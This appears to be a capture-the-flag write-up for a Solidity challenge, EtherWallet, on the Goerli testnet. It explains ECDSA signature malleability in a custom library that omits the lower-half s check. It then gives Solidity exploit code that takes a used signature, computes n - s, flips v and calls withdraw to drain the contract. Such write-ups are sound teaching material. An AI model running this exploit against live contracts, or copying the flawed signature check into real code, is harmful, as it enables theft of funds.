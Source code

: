 # Solidity challenge EtherWallet.sol

## The objective

The task is simple: Steal all ether from the contract.

## Overview

[EtherWallet.sol] is deployed at [0x4b90...f877](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877). Its a lightweight wallet contract, anyone can deposit ether and anyone with a valid signature can withdraw. There are only two state variables and two functions, `withdraw(bytes memory signature)` and `transferOwnership(address newOwner)`. `transferOwnership` is copied from OpenZeppelins Ownable contract.

Function `withdraw` expects a signature and checks if its signed by the owner of the contract:

```solidity
function withdraw(bytes memory signature) external {
  require(!usedSignatures[signature], "Signature already used!");
  require(
    ECDSA.recover(keccak256("\x19Ethereum Signed Message:\n32"), signature) ==
      owner,
    "No permission!"
  );
  usedSignatures[signature] = true;

  uint256 balance = address(this).balance;
  payable(msg.sender).transfer(balance);

  emit Withdraw(msg.sender, balance);
}

```

It stores all used signatures in a mapping, preventing signature replay attacks:

```solidity
mapping(bytes => bool) public usedSignatures;
```

## Vulnerability

The code of `EtherWallet.sol` itself is fine, there are no hidden vulnerabilites, so we have to dig deeper. `EtherWallet.sol` uses library `ECDSA` for its signature verificiation, specifically function `recover`:

```solidity
function recover(
  bytes32 hash,
  uint8 v,
  bytes32 r,
  bytes32 s
) internal pure returns (address) {
  // If the signature is valid, return the signer address
  address signer = ecrecover(hash, v, r, s);
  require(signer != address(0), "ECDSA: invalid signature");

  return signer;
}

```

To hack this contract, one has to understand how ECDSA signatures work: Ethereum signatures consists of three integers: `v`, `r` and `s`.

ECDSA uses elliptic curves, which are **symmetric over the x-axis**: `r` is related to the x coordinate of the elliptic curve, while `s` is related to
the y coordinate.

==> That means if `(r, s)` is a valid signature, `(r, n - s)` is valid too:

```
|| 0 1 2 s0 4 | 5 s1 7 8 n ||  <== s0=3 and s1=6 are both valid
```

We use `v` to find out which point to use, in Ethereum its either `0x1b` (27) for `s < n/2`, or `0x1c` (28) for `s > n/2`. For the secp256k1 curve used in Ethereum (and Bitcoin) `n` equals `0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141`.

Battle tested contracts, like OpenZeppelin's ECDSA library, enforce that `s` is in the lower half, preventing the Signature malleability exploit. However, the built-in Ethereum function `ecrecover(hash, v, r, s)` does not. So, if theres an existing tx on the blockchain with values `v`, `r` and `s` we can simply compute the other valid `s` and adjust `v` accordingly, e.g. if `s < n/2`, compute `s_new = n - s` and change `v` from 27 to 28.

The `ECDSA` library used in this contract is similiar to OpenZeppelins library, but the important part, where it is enforced that `s` must be in the lower half, is removed.

## Exploit

Contract `EtherWallet` was deployed to the Goerli test network, see [Etherscan](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877).

After deployment, `withdraw` was called with signature `0x53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c`.

To exploit the vulnerability, we first have to extract values `v`, `r` and `s` from the signature:

```solidity
(r, s, v) = _getSignature(
    hex"53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c"
);

function _getSignature(bytes memory signature)
    internal
    pure
    returns (
        bytes32,
        bytes32,
        uint8
    )
{
    bytes32 r;
    bytes32 s;
    uint8 v;
    // ecrecover takes the signature parameters, and the only way to get them
    // currently is to use assembly.
    /// @solidity memory-safe-assembly
    assembly {
        r := mload(add(signature, 0x20))
        s := mload(add(signature, 0x40))
        v := byte(0, mload(add(signature, 0x60)))
    }
    return (r, s, v);
}
```

Then do the necessary calculations:

```solidity
if (v == 27) {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 28 since we now use s in the upper half
    vNew = 28;
} else {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 27 since we now use s in the lower half
    vNew = 27;
}
```

Equipped with our new signature, we just have to call `withdraw` again:

```solidity
bytes memory newSignature = abi.encodePacked(r, sNew, vNew);
(bool success, bytes memory ret) = address(etherwallet).call(
    abi.encodeWithSignature("withdraw(bytes)", newSignature)
);
```

See [ExploitEtherWallet.sol](../script/exploits/ExploitEtherWallet.sol) for full code.

## Further information

- [EtherWallet.t.sol](../test/EtherWallet.t.sol) test script setting up and exploiting the contract
- [More info](http://coders-errand.com/malleability-ecdsa-signatures/) about signature malleability
- [A closer look at Ethereum signatures](https://hackernoon.com/a-closer-look-at-ethereum-signatures-5784c14abecc)
- [Math behind elliptic curve cryptography](https://hackernoon.com/what-is-the-math-behind-elliptic-curve-cryptography-f61b25253da3)
